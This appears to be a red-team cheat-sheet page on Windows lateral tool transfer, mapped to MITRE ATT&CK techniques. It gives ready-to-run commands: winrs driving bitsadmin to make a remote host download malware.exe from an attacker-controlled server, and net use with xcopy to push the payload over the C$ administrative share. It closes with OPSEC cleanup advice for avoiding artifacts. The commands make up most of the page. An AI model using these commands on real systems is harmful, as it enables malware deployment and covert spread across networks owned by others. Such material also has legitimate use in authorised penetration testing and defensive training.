

Techniques for transferring payloads and executing commands on remote Windows systems using native tools like `winrs`, `bitsadmin`, `net use`, and `xcopy`. These methods rely on SMB (Port 445) and WinRM (Port 5985) to move laterally.

<Callout type="info" title="MITRE ATT&CK Mapping">
* [T1021 - Remote Services](https://attack.mitre.org/techniques/T1021/)
* [T1570 - Lateral Tool Transfer](https://attack.mitre.org/techniques/T1570/)
</Callout>




---

## Attack Methods

<Tabs>
  <Tab title="Method 1: WinRS & Bitsadmin">
    <Callout type="danger" title="Remote Download using WinRS">
    You can use Windows Remote Management (`winrs`) to execute a command on the target machine that forces it to download a payload from your attacker-controlled server using `bitsadmin`.
    </Callout>

    ```powershell
    # Uses WinRS to run bitsadmin on the remote machine
    # Downloads malware.exe from attacker HTTP server to the target's C:\Users\Public\
    winrs -r:targetmachinename -u:administrator -p:password "bitsadmin /transfer WindowsupDates /Priority normal http://x.x.x.x/malware.exe C:\Users\Public\malware.exe"
    ```
    <Callout type="warning">*Note: `bitsadmin` is a legacy tool but often bypasses basic network restrictions because it operates as a background intelligent transfer service.*</Callout>
  </Tab>

  <Tab title="Method 2: SMB Drive Mapping & Xcopy">
    <Callout type="warning" title="Pushing Files via Mapped Drives">
    Instead of forcing the remote machine to download the file, you can map the remote machine's administrative share (`C$`) to your local machine and copy the payload directly using `xcopy`.
    </Callout>

    <Steps>
      <Step title="Step 1: Map the Remote Administrative Share">
        *Maps the target's C:\Users\Public to the X: drive on your machine.*
        ```powershell
        net use x: \\targetmachinename\C$\Users\Public /user:domain\user <password>
        ```
      </Step>
      <Step title="Step 2: Copy the Payload to the Mapped Drive">
        *'echo F' tells xcopy that the destination is a File, not a Directory.*
        ```powershell
        echo F | xcopy C:\malware.exe x:\malware.exe
        ```
        
        **Alternative: Direct UNC Path Copy**
        *You can skip mapping the drive and copy directly to the UNC path.*
        ```powershell
        # Fixed typo: $C -> C$ and Publick -> Public
        echo F | xcopy C:\malware.exe \\targetmachinename\C$\Users\Public\Loader.exe
        ```
      </Step>
    </Steps>
  </Tab>
</Tabs>

---

## OPSEC & Cleanup

<Callout type="tip" title="Operational Security (OPSEC) & Cleanup">
* **Administrative Shares:** Using `C$` requires the user account to be a member of the local Administrators group on the target machine.
* **Cleanup:** Always remember to unmap the drive after transferring files to avoid leaving artifacts:
  ```powershell
  net use x: /delete
  ```
</Callout>
